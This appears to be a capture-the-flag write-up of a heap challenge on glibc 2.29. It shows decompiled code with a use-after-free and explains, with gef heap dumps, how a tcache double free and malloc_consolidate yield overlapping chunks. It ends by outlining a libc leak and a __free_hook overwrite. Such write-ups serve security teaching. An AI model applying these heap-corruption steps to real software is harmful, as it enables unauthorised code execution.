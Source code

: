 # information
Running on Ubuntu 16.04, this is a pretty traditional heap exploit challenge.
Only two functions exists in it, *new()* and *delete()*.
To be noted, the size of the chunk should be less than 0x78.
```C
unsigned int new()
{
  unsigned int result; // eax
  int i; // [rsp+8h] [rbp-8h]
  size_t size; // [rsp+Ch] [rbp-4h]

  for ( i = 0; g_chunk[i]; ++i )
  {
    if ( i == 18 )
    {
      puts("full");
      exit(0);
    }
  }
  printf("size:");
  result = read_int();
  LODWORD(size) = result;
  if ( result <= 0x78 )
  {
    g_chunk[i] = malloc(result);
    printf("content:");
    read(0, g_chunk[i], (unsigned int)size);
    result = puts("done");
  }
  return result;
}
```
# bug
There is a UAF bug in the *delete* function.
```C
int delete()
{
  int idx; // [rsp+Ch] [rbp-4h]

  printf("index:");
  idx = read_int();
  if ( idx < 0 || idx > 17 )
  {
    puts("index out of range");
    exit(0);
  }
  free(g_chunk[idx]);
  return puts("done");
}
```
# exploit
The question is how to leverage this bug to code execution. 
Since its been running with libc-2.29.so, the tcache double free mitigation has been added to it. So that we cant use the *House of Atum* way to exploit it.
But here, we can use 18 chunks at most. 

Create 8 chunks and free 7 of them(skip chunk 5) to fill the tcache list, at the same time, prepare the content for *malloc_consolidate*.
```
0x555555757450:	0x0000000000000000	0x0000000000000081 [chunk 4]
0x555555757460:	0x0000000000000000	0x0000000000000000
0x555555757470:	0x0000000000000000	0x0000000000000000
0x555555757480:	0x0000000000000000	0x0000000000000000
0x555555757490:	0x0000000000000000	0x0000000000000000
0x5555557574a0:	0x0000000000000000	0x0000000000000000
0x5555557574b0:	0x0000000000000000	0x0000000000000081 [fake chunk]
0x5555557574c0:	0x0000000000000000	0x0000000000000000
0x5555557574d0:	0x0000000000000000	0x0000000000000041 [chunk 5]
0x5555557574e0:	0x3535353535353535	0x3535353535353535
0x5555557574f0:	0x3535353535353535	0x3535353535353535
0x555555757500:	0x3535353535353535	0x3535353535353535
0x555555757510:	0x3535353535353535	0x0000000000000081 [chunk 6]
0x555555757520:	0x0000000000000000	0x0000000000000000
0x555555757530:	0x0000000000000000	0x0000000000000061
0x555555757540:	0x0000000000000000	0x0000000000000000
0x555555757550:	0x0000000000000000	0x0000000000000000
0x555555757560:	0x0000000000000000	0x0000000000000000
0x555555757570:	0x0000000000000000	0x0000000000000000
[...]
```
Here we use chunk4, chunk5, chunk6 to arrange the heap, make chunk5 just inside the fake chunk. At the same time, Set a fake chunk.
The fake chunk will be added into the fastbins' linked list in the following steps. Carefully set it size to bypass malloc_consolidate checking(next chunk -> chunk 7).

Now, `free(8)`, chunk 8 will be added into the fastbin
```
───────────────────── Tcachebins for arena 0x155555326c40 ─────────────────────
Tcachebins[idx=6, size=0x70] count=7  ←  Chunk(addr=0x5555557575a0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
────────────────────── Fastbins for arena 0x155555326c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE) 
```
malloc a new chunk with size 0x78, this chunk will be selected from `tcache_bins[6]`, chunk 0x5555557575a0 will be allocated.
```
Tcachebins[idx=6, size=0x70] count=6  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
────────────────────── Fastbins for arena 0x155555326c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE) 
```
Doing `free(8)` again, the chunk will be added into `tcache_bins[]`. And it's FD will be 0x555555757520.
```
Tcachebins[idx=6, size=0x70] count=7  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
─────────────────────────────────────────────────────────── Fastbins for arena 0x155555326c40 ───────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757530, size=0x0, flags=) [incorrect fastbin_index] 
```
Malloc a new chunks with size 0x78, it will be at 0x555555757620, setting its FD to the fake chunk we created at the beginning, preparing for the malloc_consolidate.
```
Tcachebins[idx=6, size=0x70] count=6  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
─────────────────────────────────────────────────────────── Fastbins for arena 0x155555326c40 ───────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557574c0, size=0x80, flags=PREV_INUSE) 
```

Because this challenge didnt do `setbuf(stdin, 0)`. So `getchar()` will call `malloc(0x1000)` inside, which will trigger malloc_consolidate.
After malloc_consolidate, fake chunk will be added into smallbins, and we got an overlapping chunk together with libc address in it.
The chunk is overlapped with chunk 5.
```
gef➤  x/20gx 0x5555557574c0-0x10
0x5555557574b0:	0x0000000000000000	0x0000000000000081 [fake chunk]
0x5555557574c0:	0x0000155555326d10	0x0000155555326d10
0x5555557574d0:	0x0000000000000000	0x0000000000000041 [chunk 5]
0x5555557574e0:	0x3535353535353535	0x3535353535353535
0x5555557574f0:	0x3535353535353535	0x3535353535353535
0x555555757500:	0x3535353535353535	0x3535353535353535
0x555555757510:	0x3535353535353535	0x0000000000000081 [chunk 6]
0x555555757520:	0x0000555555757460	0x0000000000000000
0x555555757530:	0x0000000000000080	0x0000000000000060
0x555555757540:	0x0000000000000000	0x0000000000000000

```
We can use chunk 5 to do stdout overwrite and leak libc address. Then overwrite chunk 6's FD to edit `__free_hook`.






